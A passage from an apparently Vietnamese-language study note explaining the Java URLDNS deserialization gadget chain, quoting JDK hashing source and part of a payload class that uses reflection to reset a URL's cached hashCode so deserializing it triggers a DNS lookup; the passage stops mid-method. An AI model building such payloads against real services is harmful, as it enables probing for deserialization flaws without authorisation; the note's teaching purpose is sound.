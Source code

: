 ```
 static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

nhận giá trị là một object key sau đó kiểm tra key == null hay không thì trả ra 0 nếu đúng còn nếu không thì nó lại trả ra `(h = key.hashCode()) ^ (h >>> 16)` và ở đây key.hashCode() được gọi đến ->

![image](https://hackmd.io/_uploads/HkSpUqT2C.png)


Có thể thấy nó như thế này:

```
public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

```
 private void resetState() {
        this.protocol = null;
        this.host = null;
        this.port = -1;
        this.file = null;
        this.authority = null;
        this.ref = null;
        this.hashCode = -1;
        this.handler = null;
        this.query = null;
        this.path = null;
        this.userInfo = null;
        this.tempState = null;
    }
```

`private int hashCode = -1;`

Nó sẽ kiểm tra xem có giá trị hashCode nào được cache hay không -> check nếu hashCode != 1 sẽ trả về luôn còn ngược lại thì gọi `handler.hashCode(this)` và để có thể chain được thì yêu cầu nó phải có giá trị bằng -1

Đây là lúc ta sử dụng java Reflection để set lại giá trị private này:


```
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
```